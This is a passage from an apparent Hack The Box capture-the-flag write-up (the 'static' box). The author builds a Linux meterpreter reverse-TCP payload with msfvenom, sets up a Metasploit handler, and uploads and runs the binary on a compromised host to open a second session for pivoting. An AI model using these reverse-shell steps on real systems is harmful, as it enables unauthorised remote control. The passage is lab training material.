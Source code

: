 ```
        TX packets 56  bytes 2955 (2.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Since our current meterpreter does not have the needed routing capabilites we create a new one.

```
$msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=172.30.0.8 LPORT=7575 -f elf -o m7575
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037344 bytes
Final size of elf file: 1037344 bytes
Saved as: m7575
```

We set our handler to the payload lhost and lport we selected.

```
msf6 exploit(unix/http/xdebug_unauth_exec) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 172.30.0.8
lhost => 172.30.0.8
msf6 exploit(multi/handler) > set lport 7575
lport => 7575
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.30.0.8:7575
```

Now we upload the meterpreter, drop into a command shell, make the binary executable and run it as background process. The next meterpreter connects almost instantly back to us and we can now set the routing up.

```
meterpreter > upload m7575
[*] uploading  : /home/jack/htb/boxes/static/writeup/m7575 -> m7575
[*] Uploaded -1.00 B of 1013.03 KiB (0.0%): /home/jack/htb/boxes/static/writeup/m7575 -> m7575
[*] uploaded   : /home/jack/htb/boxes/static/writeup/m7575 -> m7575
meterpreter > shell
Process 53 created.
Channel 1 created.
chmod +x /tmp/m7575
/tmp/m7575 &
[*] Meterpreter session 2 opened (172.30.0.8:7575 -> 172.30.0.1:60536) at 2021-06-20 08:37:15 +0000
^C
Terminate channel 1? [y/N]  y
meterpreter > bg
[*] Backgrounding session 1...
```
